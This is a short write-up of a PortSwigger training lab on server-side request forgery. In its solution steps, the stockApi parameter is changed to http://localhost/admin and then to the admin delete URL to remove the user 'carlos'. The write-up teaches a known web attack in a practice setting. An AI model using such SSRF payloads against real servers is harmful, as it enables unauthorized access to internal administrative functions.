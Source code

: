 # Lab Writeup: Basic SSRF against the local server

URL: https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/ssrf-apprentice/ssrf/lab-basic-ssrf-against-localhost

## Description

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

## Solution

1. Go to one of the products and click "Check stock" while intercepting the request using Burp
2. Send the intercepted request to repeater and change the `stockApi` value to `http://localhost` then you're able to access the page with admin privilege
   ```
   <section class="top-links">
       <a href=/>Home</a><p>|</p>
       <a href="/admin">Admin panel</a><p>|</p>
       <a href="/my-account">My account</a><p>|</p>
   </section>
   ```
3. Go to `/admin` then you'll see the link to delete `carlos`
   ```
   <div>
       <span>carlos - </span>
       <a href="/admin/delete?username=carlos">Delete</a>
   </div>
   ```
4. Put the link to `stockApi` as value `stockApi=http://localhost/admin/delete?username=carlos` then the challenge should be solved

   ![Basic SSRF Local](/assets/basic-ssrf-local.png)
